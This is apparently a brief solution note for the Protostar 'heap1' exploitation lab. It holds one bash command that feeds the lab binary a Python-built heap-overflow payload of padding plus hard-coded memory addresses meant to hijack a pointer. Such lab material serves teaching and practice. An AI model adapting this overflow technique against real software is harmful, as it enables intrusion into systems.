 # Protostar - heap1

```BASH
 ./heap1 `python -c 'print "A"*20 +"\x74\x97\x04\x08" +" "+"\x94\x84\x04\x08"+"B"*26'`
